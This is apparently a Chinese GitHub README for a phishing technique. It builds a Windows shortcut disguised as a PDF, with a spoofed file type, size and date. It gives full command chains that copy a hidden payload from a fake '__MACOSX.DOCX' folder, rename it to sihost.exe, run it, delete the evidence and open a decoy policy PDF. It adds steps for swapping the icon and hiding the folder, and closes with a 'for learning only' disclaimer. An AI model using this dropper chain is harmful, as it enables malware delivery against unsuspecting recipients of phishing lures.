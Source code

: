 
### 1.快捷方式生成
参考 www.x86matthew.com 的项目，原文链接已删除。 
2023年7月份改的代码，主要配合bat/vbs脚本调用，图标替换通过010editor进行修改，之前本想将其写成个 操作友好的工具，但由于部分原因没弄成.

test处可伪装成正常打开pdf时显示的内容（类型、大小、修改日期）

```
linkgen.exe calc.pdf.lnk "test" "xcopy /h /y %cd%__MACOSX.DOCX\calc.tmp %temp%\ & attrib -s -a -h %temp%\calc.tmp & rename %temp%\calc.tmp sihost.exe & attrib -s -a -h %cd%__MACOSX.DOCX\calc.tmp & start %temp%\sihost.exe & del "calc.pdf.lnk" & del /F /A /Q "%cd%__MACOSX.DOCX\wct366A.tmp" & copy "%cd%__MACOSX.DOCX\电子商务产业发展扶持奖励政策.pdf" "%cd%\XXX电子商务产业发展扶持奖励政策.pdf" & start "" "%cd%\XXX电子商务产业发展扶持奖励政策.pdf" & del "%cd%__MACOSX.DOCX\XXX电子商务产业发展扶持奖励政策.pdf" "
```

### 2.图标处理
参考 https://www.cnblogs.com/f-carey/p/16542156.html#tid-sywapk 
<img width="910" alt="image" src="https://github.com/user-attachments/assets/1372ea03-f5ee-4e01-ba5b-d83d7ab8424d">

### 3.bat脚本
```
xcopy /h /y %cd%__MACOSX.DOCX\calc.tmp %temp%\ & attrib -s -a -h %temp%\calc.tmp & rename %temp%\calc.tmp sihost.exe & attrib -s -a -h %cd%__MACOSX.DOCX\calc.tmp & start %temp%\sihost.exe & del "calc.pdf.lnk"  &  del /F /A /Q %cd%__MACOSX.DOCX\calc.tmp
```

### 4.文件夹隐藏
打开隐藏后效果如下，正常情况默认隐藏 .__MACOSX 文件夹

<img width="1424" alt="image" src="https://github.com/user-attachments/assets/8e49da65-02ff-471b-a17b-b04cff7187ea">


### 注意！！！
2023年时候用的方法，仅作为一种钓鱼思路进行参考学习，切勿被恶意使用！！！
